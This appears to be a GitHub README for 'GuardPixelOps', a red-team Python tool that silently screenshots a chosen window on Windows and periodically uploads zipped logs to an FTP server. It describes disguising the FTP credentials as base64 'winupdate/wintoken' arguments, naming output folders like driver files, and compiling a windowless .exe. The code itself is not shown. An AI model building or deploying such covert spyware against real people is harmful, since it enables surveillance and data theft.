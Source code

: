 

### GuardPixelOps 🖥️🛡️

## Overview
GuardPixelOps is a powerful tool designed for Red Team operations and adversary simulations. This Python script focuses on Windows environments, specifically addressing issues sending screenshots. The tool offers functionalities for capturing screenshots and insecurely sending logs to a designated FTP server.

### DEMO
[https://github.com/nocerainfosec/GuardPixelOps/blob/main/demo/GuardPixelOps%20-%20Demo.mp4](https://github.com/nocerainfosec/GuardPixelOps/assets/105872185/c85991fe-3aa2-482a-8925-80e6c335158a)

### Important Note: Encoding Information in Base64

Before using GuardPixelOps, please ensure that you encode the following information in Base64 format for the respective command-line arguments:

- `--winupdate`: Microsoft Relay Information
- `--wintoken`: Windows Token
- `--winversion`: Windows Version

Here's an example of how to encode information in Base64 using Python:

```bash
echo -n "your_information_here" | base64
```
Here's an example of how to encode information in Base64 using Powershell:

```bash
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("your_information_here"))
```

## Features
- **Automated Driver Fixes:** GuardPixelOps identifies and fixes broken drivers in the Windows environment. OF COURSE NOT! This is a joke!
- **Screenshot Capture:** The tool captures screenshots of the active window when a broken driver is detected, providing visual context for analysis. (You kidding me?! It takes screenshots based on the active Window!)
- **Secure Log Transmission:** Logs containing information are insecurely compressed and sent to a specified FTP server for analysis.
- **Background Operation:** GuardPixelOps operates silently in the background, periodically sending logs at regular intervals.

## How It Works
1. **Screenshot Grabbing:** Monitors the active window and captures screenshots when a specified window title is detected. The tool then saves the screenshots and logs the fixed driver information.
2. **Log Transmission:** Compresses the fixed driver logs into a zip file and securely transmits them to a designated FTP server for further analysis.
3. **Background Operation:** Runs as a background process, automatically sending logs at regular intervals.

## Usage
To use GuardPixelOps, provide the following command-line arguments:
- `--winupdate`: FTP Relay information. BASE64 Encoded! 🖥️
- `--wintoken`: Authentication User. BASE64 Encoded! 🖥️
- `--winversion`: Credentials. BASE64 Encoded! 🖥️
- `--regger`: Desired Window name. Plain Text

### Example Command:
```bash
python guardpixelops.py --winupdate <FTP_Relay_information> --wintoken <Authentication_User> --winversion <Credentials> --regger <Desired_Window_name>
```

## Setup
1. Clone the repository: `git clone https://github.com/your-username/guardpixelops.git`
2. Install dependencies: `pip install -r requirements.txt`
3. Run the script: `python guardpixelops.py`

### Compiling to .exe

To enhance portability and simplify distribution, you can compile GuardPixelOps into a standalone executable (.exe) file using [PyInstaller](https://www.pyinstaller.org/).

Ensure you have PyInstaller installed:

```bash
pip install pyinstaller
```

Navigate to the directory containing guardpixelops.py and run the following command in the command prompt:
```bash
pyinstaller --clean -w -F -i NONE "guardpixelops.py" --noconsole
```
Now, you can distribute and run GuardPixelOps as a standalone executable without requiring Python or additional dependencies.

### Folders and Logs
During the execution of GuardPixelOps, the script creates a folder structure within the WindowsFiles directory. Here's an overview:

WindowsFiles:
- `Updates`: Contains temporary files used during the update process.
- `Drivers`: Contains compressed driver backup files.
- `Logs`: The log file (logs-drivers.txt) is created in the same directory as the executable.
Make sure to check the logs for important information and any error messages, LOL.

Note: Adjust the command and paths as needed based on your preferences.




## Disclaimer
GuardPixelOps is intended for educational and research purposes only. Users are responsible for complying with applicable laws and regulations.


Feel free to contribute to the project by opening issues or submitting pull requests!

👾 Happy Red Teaming with GuardPixelOps! 👾
